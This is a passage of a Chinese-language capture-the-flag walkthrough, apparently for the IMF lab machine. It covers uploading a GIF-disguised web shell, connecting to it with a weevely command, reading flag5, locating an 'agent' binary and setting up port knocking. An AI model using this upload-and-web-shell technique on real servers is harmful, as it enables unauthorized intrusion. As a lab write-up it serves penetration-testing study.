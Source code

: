 随意添加 GIF 数值！！（制作木马）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz579SICSItzR3ibWKWuzbxZFPqxNBrtTSfeeb4ia8pkJEo1Uo54wqsnFQbA/640?wx_fmt=png)

成功上传，上传完后查看源代码！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz575AvicsLLOXBtvu4dOuiaIFYHW1Gibyo07BQe5iaZfF57zTEia0xDXzpibCibw/640?wx_fmt=png)

```
返回值：43384891653d（木马值）
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57AomZI7UbiaccRm5EiaoxdTfiaaOvOc3H2Sfp5CicCE56gSf4GibzgzP3Yvg/640?wx_fmt=png)

```
weevely http://192.168.182.151/imfadministrator/uploads/43384891653d.gif jesse
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz572PpA68ku1IgJxLMWtyZWgUTThYAbkU9ZqZ4CGmZNibthnh6KyC1XDkA/640?wx_fmt=png)

使用 weevely 链接木马，成功提到低权限，并查看到 flag5 信息

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57TQA6mhzN6WtEr1DN9B8Vdx48HhU5dEvBQxaa8f0tIibwa6H3ibgviajCQ/640?wx_fmt=png)

```
flag5{YWdlbnRzZXJ2aWNlcw==}
解码：agentservices
```

这里也可以用 metasploit 提权

flag5 是代理服务的意思那就跟着这条思路继续往下走....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57GWmIkQExwWD9kU7x6czpLtxmZolPN2gmnLpwDibumgqb06ZcVpeI1eA/640?wx_fmt=png)

```
find / -name agent &>/dev/null
/usr/local/bin/agent
```

这使用 >/dev/null 把错误信息重定向到黑洞中，只留下正确的信息回显，这时候我们就能快速而准确的找到我们需要的文件了...

发现有代理在执行

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57iah6UtaoCkZib8iaJmdvOQgrpQ6t5LYXSeVujlzwQ2YddXT3F8IGsvURg/640?wx_fmt=png)

netstat 查看端口 7788 也有代理在执行

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57P3qRmkggHqEvUdwibicAD4p1WLrIOHqox0bEibuY1Nl6c7BnIpoo9qFZg/640?wx_fmt=png)

到 / usr/local/bin 目录下查看 access_codes 发现端口序列：7482 8279 9467

这边使用 knock 敲门（基于 python3 就是撬开端口的意思）

没有的先安装

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz5740liauNWfBNZ2EJ2QEqsl4nFmu35ruBv5zHfHvuFTeq3fk57oj07Hjw/640?wx_fmt=png)
